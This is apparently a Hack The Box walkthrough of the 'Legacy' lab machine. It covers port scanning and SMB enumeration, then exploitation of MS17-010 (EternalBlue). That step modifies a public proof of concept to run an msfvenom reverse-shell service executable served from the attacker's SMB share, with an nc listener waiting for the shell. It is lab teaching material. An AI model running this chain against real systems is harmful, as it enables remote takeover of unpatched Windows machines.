





# [Legacy](https://app.hackthebox.eu/machines/2)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.4 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.4 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.4
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.4
```

The TCP quick scan returns the following:



Seems like only SMB/NetBIOS is open. Start an enumeration:

```bash
smbclient -N -L //10.10.10.4
smbclient -U '%' -L //10.10.10.4
smbclient -U 'sfd%sfd' -L //10.10.10.4
```



Anonymous access does not seem to be allowed for any shares. Trying to look at RPC also does not work:

```bash
enum4linux 10.10.10.4
crackmapexec smb 10.10.10.4
```

The full `nmap` returns an interesting value:



It seems like this machine may be vulnerable to MS17-010, which is eternal blue. A good resource for this is https://github.com/worawit/MS17-010:

```bash
# clone repo
git clone https://github.com/worawit/MS17-010.git
# run exploit PoC
python2.7 MS17-010/zzz_exploit.py 10.10.10.4
```



It seems like the exploit PoC works. Next modify the `zzz_exploit.py` exploit to get a reverse shell:

```python
def smb_pwn(conn, arch):  
  payload = 'cmd /c \\\\10.10.14.25\\BUBBA\\bubba.exe'
  print('[!!!] executing service: ' + payload)
  service_exec(conn, payload)
```

Then generate a new payload, host it for download & start a listener:

```bash
# generate service payload to respond to Windows Service Manager API
msfvenom -p windows/shell_reverse_tcp \
         LPORT=6969 LHOST=10.10.14.25 EXITFUNC=thread \
         --platform windows \
         -a x86 \
         -f exe-service \
         --service-name bubba \
         -o bubba.exe
# host payload
sudo impacket-smbserver BUBBA .
# start listener
nc -nvlp 6969
# run the exploit again
python2.7 MS17-010/zzz_exploit.py 10.10.10.4
```

After running this exploit again, the following shell is given:



There is also another way into this box using MS08-067 that aso provides an immediate SYSTEM shell:

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-067

